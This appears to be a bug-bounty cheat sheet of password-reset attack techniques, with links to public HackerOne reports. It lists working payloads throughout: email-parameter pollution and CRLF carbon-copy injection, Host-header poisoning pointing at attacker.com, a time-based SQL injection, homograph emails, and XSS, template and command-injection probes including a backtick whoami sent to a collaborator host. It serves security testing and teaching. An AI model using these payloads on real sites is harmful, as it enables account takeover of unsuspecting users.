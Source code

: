 ### Reset Password 
[All About Password Reset Vulnerability](https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7) 

[10-Password-reset-flaws](https://anugrahsr.github.io/posts/10-Password-reset-flaws/#10-try-using-your-token)

- Password reset with manipulating email parameter:[1175081](https://hackerone.com/reports/1175081)
    ```
        JSON: {"email":["victim@gmail.com","attacker@gmail.com"]} 
        {"email":"victim@gmail.com","email":"attacker@gmail.com"}

        Double parameter: email=victim@gmail.com&email=attacker@gmail.com
        email[]=victim@gmail.com&email[]=attacker@gmail.com

        carbon copy: email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
                     email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"

        Using separators: email=victim@xyz.tld,hacker@xyz.tld
                        mail=victim@gmail.com%20email=attacker@gmail.com
                        email=victim@gmail.com|email=attacker@gmail.com
    ```
    

    - Password reset token leakage via Referer Header [272379](https://hackerone.com/reports/342693) [272379](https://hackerone.com/reports/272379)

    - Host Header Poisoning [https://hackerone.com/reports/226659] [https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html]   [https://medium.com/@tameemkhalid/host-header-injection-on-password-reset-functionality-an-easy-p2-5c6263c2e3d4]

    ```
        Host: attacker.com

        Host: target.com
        X-Forwarded-Host: attacker.com

        Host: target.com
        Host: attacker.com
    ```

    - Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.

    - Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request.

    - Modifying Request-URI
    ```
        POST https://attacker.com/forgot-password HTTP/1.1
        POST @attacker.com/forgot-password HTTP/1.1
        POST :@attacker.com/forgot-password HTTP/1.1
        POST /forgot-password@attacker.com HTTP/1.1
    ```
    Check if the password reset link is manipulated or not.

    - SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```

    - CRLF: ```POST/resetpassword?%0d%0aHost:%20attacker.com```

    - Append a .json after the endpoint.

    -  During registration and password reset use homograph in email. [EvilUrl](https://github.com/UndeadSec/EvilURL)
    ```
        email=victim@gmail.com
        email=victim@gmаil.com

        Using Unicode: Cyril ic Small Letter A
        email=victim@xn--gmil-63d.com

    Steps to reproduce:
        1. Create a new account with tuhin1729@gmail.com.xyz.burpcollaborator.net
        2. Go to password reset page and enter this email:
        tuhin1729@gmаil.com.xyz.burpcollaborator.net [Here "a" is different]
        If it's vulnerable then you'll get the password reset link to your collaborator
        server.

    ```

    - Append null bytes after your email and observe the response.
    ```
        %00, %0d%0a, %0d, %0a, %09, %0C, %20
        {"email":"attacker@gmail.com"}
        {"email":"attacker@gmail.com%00"}

    ```

    - Try XSS, SSTI, Command Injection etc in the email field.
    ```
        hello+(<script>alert(1)</script>)@gmail.com
        "<%= 7 * 7 %>"@gmail.com
        hello+(${{7*7}})@gmail.com
        hello@`whoami`.xyz.burpcollaborator.net
    ```

    - Session/Token is not expiring after password reset. [https://hackerone.com/reports/244642]

    - Weak Password Policy - Add only space in password.

    - Request for 2 password reset links and try the older one.

    - Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("neasher ", " neasher " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))

    - If they are sending an otp for password reset, try [2FA Bypass](https://github.com/neasher1/BUG-Hunting/blob/main/2FA-Bypass.md) techniques.

    - 2FA auto disabled after password reset.
   
    - Changing Email And Password of any User through API Parameters [https://ad3sh.medium.com/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240]

    - Reset password link sent over unsecured http protocol [https://hackerone.com/reports/1888915]

    - User enumeration via Password reset page [https://hackerone.com/reports/1166054] [https://hackerone.com/reports/77067]

    - Logout CSRF [https://hackerone.com/reports/223329]

    - [Activation tokens are not expiring](https://hackerone.com/reports/223339)

    - Design Flaw in session management of password reset [https://hackerone.com/reports/229417]

    - weak cryptography issue [https://infosecwriteups.com/bugbounty-how-i-was-able-to-compromise-any-user-account-via-reset-password-functionality-a11bb5f863b3]

    - Response Manipulation: Replace Bad Response With Good One [https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3]

    - Failure to Invalid Session after Password Change [https://hackerone.com/reports/514577] [https://hackerone.com/reports/678050]

